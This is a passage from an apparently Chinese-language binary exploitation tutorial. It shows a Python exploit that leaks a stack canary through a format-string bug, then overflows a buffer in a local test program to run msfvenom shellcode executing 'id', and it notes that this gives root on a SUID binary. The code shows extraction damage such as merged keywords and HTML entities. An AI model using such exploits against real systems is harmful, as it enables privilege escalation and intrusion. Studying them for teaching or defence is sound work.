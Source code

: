   
  
在主函数中，我们使用stdbuf -o0命令启动目标进程，这样即使进程没有刷新输出管道，我们也能在其运行时高效地读取输出。我们还强制操作系统不阻塞输出管道，这样就不会卡住并发生死锁。接下来，我们泄漏金丝雀。如果成功，进程将被注入，并在使用 exit 函数触发后重定向执行流。如果失败，程序将退出。  
  
让我们运行该漏洞：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/rWGOWg48taeYk9pbibPZ7GcMFkubQZibXr7yruI2zMo5JX6wbvyicC5ResFVY1dAXia2HgqaeZnicZ7gehjU1yfe4RQ/640?wx_fmt=png&from=appmsg "")  
  
太好了，我们可以绕过 Stack Canary 并执行运行“id”命令的 Shellcode。如果该程序由 root 用户拥有且具有 SUID 权限，我们就可以像上一篇博文中提到的那样获得 root 权限。  
  
以下是完整的利用代码：  
  

```
#!/usr/bin/python3

import struct, os, fcntl
from subprocess import Popen, PIPE

TARGET_PATH = &#34;./test&#34;

# msfvenom -a x64 --platform linux -p linux/x64/exec -b &#34;\x0a&#34; -f py AppendExit=true CMD=&#34;id&#34;
buf = b&#34;&#34;
buf += b&#34;\x48\xb8\x2f\x62\x69\x6e\x2f\x73\x68\x00\x99\x50&#34;
buf += b&#34;\x54\x5f\x52\x66\x68\x2d\x63\x54\x5e\x52\xe8\x03&#34;
buf += b&#34;\x00\x00\x00\x69\x64\x00\x56\x57\x54\x5e\x6a\x3b&#34;
buf += b&#34;\x58\x0f\x05\x48\x31\xff\x6a\x3c\x58\x0f\x05&#34;

defleak_canary(p: Popen):
    p.stdin.write( b&#34;1\n&#34; + b&#34;%49$p\n&#34; + b&#34;2\n&#34; )
    p.stdin.flush()
    out = b&#34;&#34;
    canary_pos = -1
    n = 0
    
    while n < 1024:
        out = p.stdout.readline()
        canary_pos = out.find( b&#34;0x&#34; )
        if bool( ~canary_pos ):
            break

        n += 1

    else:
        return-1

    canary = int( out[canary_pos : canary_pos+18], 16 )
    return canary

defhijack_exec(p: Popen, canary):
    payload = b&#34;&#34;
    payload += b&#34;A&#34; * 0x112                               # Fills the stack frame
    payload += struct.pack( &#34;<Q&#34;, canary ) # Places the correct canary value 
    payload += b&#34;B&#34; * 0x8                                 # Base pointer
    payload += struct.pack( &#34;<Q&#34;, 0x7fffffffdd60 + 0x40 ) # Instruction pointer
    payload += b&#34;\x90&#34; * 0x40                             # NOPs for padding
    payload += buf # Shellcode

    p.stdin.write( b&#34;1\n&#34; )
    p.stdin.write( payload + b&#34;\n&#34; )
    p.stdin.flush()

defexit_target(p: Popen):
    p.stdin.write( b&#34;4\n&#34; )
```